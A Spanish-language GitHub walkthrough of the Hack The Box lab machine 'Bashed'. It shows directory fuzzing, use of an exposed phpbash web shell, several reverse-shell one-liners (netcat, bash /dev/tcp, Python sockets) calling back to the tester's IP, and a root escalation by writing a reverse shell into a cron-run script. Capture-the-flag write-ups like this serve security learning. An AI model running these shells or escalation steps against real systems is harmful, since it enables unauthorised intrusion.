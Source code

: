 # Bashed-HTB
Resolucion de la maquina

## Nmap

```
nmap -sS -Pn --open 10.129.165.94 -oG scan 
```

Encontramos el puerto 80 tcp abierto

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/678fc948-f147-42df-82d1-fe6d367732b1)

Dentro de la pagina encontramos que esta montado eso intentamos ver si tiene ruta por defecto. Credencuales etc.

```
/uploads/phpbash.php 404 not found
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/0c544556-8cab-4cb5-bc5d-4532791899e2)

Entonces debe de haber otra ruta...

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -t 1000 -u  http://10.0.10.1:5000/FUZZ

# Encontramos todas esas rutas accesibles

http://10.129.79.161/php/ #Encontramos un archivo sendMail.php

http://10.129.79.161/images/ # Imagenes

http://10.129.79.161/fonts/ #Fonts

http://10.129.79.161/js/ #Js 

http://10.129.79.161/dev/ # Aqui esta el RCE inicial el phpbash.php

http://10.129.79.161/css/
```

## PHPBASH

> https://github.com/Arrexel/phpbash

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/97bf7979-4b93-4530-9189-126b9583904c)

## RCE

Intente salir de esa shell subiendo un php con nc y bash y no jalo pero con python si...

```
nc -e /bin/bash 10.10.14.74 443 # No Jalo

bash -i >& /dev/tcp/10.10.14.74/4444 0>&1 # no jalo mmm

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.74",443)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


#Full tty

python -c ‘import pty; pty.spawn(“/bin/bash”);’

```
Si miramos un poco la maquina nos dice que:

> sudo -l reveals that the ​www-data​ user can run any command as scriptmanager​, without having to provide a password.

Entonces nos hacemos scriptmanager

```
(scriptmanager : scriptmanager) NOPASSWD: ALL

sudo -u scriptmanager /bin/bash
```

## Apache rutas interesantes

Aqui recopile algunas rutas interesantes.

```
/etc/apache2/sites-enabled
/etc/apache2/sites-enabled/000-default.conf
/var/www/pub
/etc/php/7.0/mods-available/ftp.ini
/usr/share/php7.0-common/common/ftp.ini
/home/scriptmanager/.bashrc
/var/www/html/config.php
## Busque archivos SUID


find / -name "*.*" -type f -perm -400

```

Al ejecutar el linpeas nos dimos cuenta de la existencia de un folder /scripts y tambien usamos el pspy para ver si hay una tarea cron y si.

```
pspy32s
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/9c427a79-031d-442b-91eb-1b26e5533e37)

Si vemos tiene el UID en cero lo que nos indica que root esta corriendo ese comando.

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/e63c0eda-4b2b-4599-852a-565ec9733d1f)

Podemos observar que el archivo se puede escribir por el usuario que somos scriptmanager.

```
Se ejecutara cada minuto y nos regresa una reverse shell con permisos de root.

echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.74",4444)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
```

![image](https://github.com/gecr07/Bashed-HTB/assets/63270579/040d5787-ea2a-494e-8854-5a44229e1c9f)








